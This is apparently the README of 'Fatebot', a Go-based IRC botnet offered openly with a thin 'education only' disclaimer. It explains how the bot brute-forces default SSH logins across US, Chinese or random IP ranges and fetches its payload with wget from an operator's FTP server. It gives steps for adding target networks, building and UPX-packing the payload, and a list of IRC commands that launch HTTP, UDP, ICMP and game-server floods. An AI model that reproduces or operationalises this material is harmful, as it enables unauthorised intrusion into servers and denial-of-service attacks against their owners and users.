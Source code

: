 # Fatebot
This is my first <strong>IRC botnet</strong> for launch Denial of Service attack. Scan target are anything that run linux, open default SSH port, use default username and password. This bot are write in "Go" language. <strong>For education purpose only. Please test it in your lab, i create this for join university in the future not for attack anyone server with out any permission!!!</strong>

<br>Develop by Bozer\Bulldozer (old name is R4bin) feel free to do anything with it, read more detail in license.</br>
<br><ins>If you have an issue please understand that some of them i can't answer because it will make me have a trouble with cyber law.</ins></br>

<img src="assets/FateBot.png" alt="Fatebot" width="400" height="400">

# Infect
The infect function of this bot is scan by default SSH port. Option about scan feature in this bot is scan on USA or CN network or you can do a random scan or even you can add you own mods like russia or india isp mods, all of these it's up to you. This bot will Brute-force attack to the target and use <strong>"wget"</strong> for download the payload from FTP server, so... please prepair your FTP server first it's very important for the infect process. <strong>(You can use any option any server type that can host the payload not maintionly to be an FTP server.)</strong>

# Add more network

(1) Go to "scan.go" file in pkg folder. Add your new network in to the group of varible.

		var_name = "123." // 123.0.0.0/8
		or
		var_name = "123.12" // 123.12.0.0/16
		
(2) Create slice of your network.

	Example:
	
		var UK_netList = []string{
			uk1, uk2, uk3, uk4, uk5,
		}

(3) Go to "nextIP" function, add the case for your network IP and then return a range of your network IP.

		case var_name:
				return bot.manageRange(genRange(255, 0)) //max and min
				
(3.1) In case of the IP that you don't want to custom your second network prefix.
	
	Example:
	
		var_name = "123.12"
		var_name = "123.20"
		
	#The IP that look like this it will return range of the id since 0 - 255 by default.
	#That's mean you don't need to add a case in "nextIP" function for your IP.
	

(4) Then go down to the "ScanMode" function and add the case of your network and custom the command.
	
	Example:
		
		case modes == "-uk": //custom your command.
			bot.Scanner(UK_netList, false) //just config the first argument to your network.
		
<strong>I use shodan to do a static and analysis of scanning like how many of SSH port are open on which isp/org, what is the most used OS, version and etc.</strong>

# DDoS
Raw socket programming is really hard for me. That's why all of <strong>The volumetric</strong> are a simple like udp and icmp flood.
Main DDoS function is on <strong>The volumetric layer</strong>.


<img src="assets/udpflood.png" alt="udp flood, dos example">

# Build payload

	chmod +x build.sh
	./build.sh <payload>
	
	#Tip: You can download upx packer to make your payload have a smaller size. It's not help much but it's really useful.
	
	Redhat:
		yum install upx -y && upx -9 bin/<payload>
		
	Debian:
		apt install upx -y && upx -9 bin/<payload>
		
# Requirements
<ul>
	<li>IRC server</li>
	<ul>
		<li>UnrealIRCd</li>
		<li>InspIRCd</li>
		<li>ircd-hybrid</li>
		<li>etc</li>
	</ul>
</ul>

<ul><li>IRC backup server <strong>(Optional)</strong></li></ul>

<ul>
	<li>IRC client</li>
	<ul>
		<li>mIRC</li>
		<li>HexChat</li>
		<li>WeeChat</li>
		<li>etc</li>
	</ul>
</ul>

<ul><li>FTP server <strong>(Optional)</strong></li></ul>

<ul><li>Go compiler</li></ul>

<ul><li>UPX packer <strong>(Optional)</strong></li></ul>

<ul>
	<li>Code\Text editor</li>
	<ul>
		<li>Vim</li>
		<li>GNU nano</li>
		<li>Visual Studio Code</li>
		<li>etc</li>
	</ul>
</ul>

# IRC Commands

	?get 	<url>			Flood HTTP get request to target. Shouldn't have "/" end of The url!!!
	?post 	<url>			Flood HTTP post request to target. Shouldn't have "/" end of The url!!!
	?udp 	<ip> <size>		Flood UDP packets by random src and dst port to target. Min and Max of buffer is 100 - 700bytes.
	?icmp 	<ip>			Flood ICMP with large packets to target.
	?vse 	<ip>			Flood TSource Engine Query request on valve source engine dst port, By random src port to the target server that used to host online games.
	?scan 	<modes> <ftp>		Scan SSH port on the network, Brute-Force attack to the target and load the payload by "wget".
	
	Scanner modes:
	
		-cn		Scan on china network. 
		-usa		Scan on united state of america network. 
		-r		Scan with random ip. 	
		
	?info				Get bot system information, for bot analysis.
	?kill				Bot self-close.
	?stopddos 			Stop ddos attacking.
	?stopscan			Stop scanning.
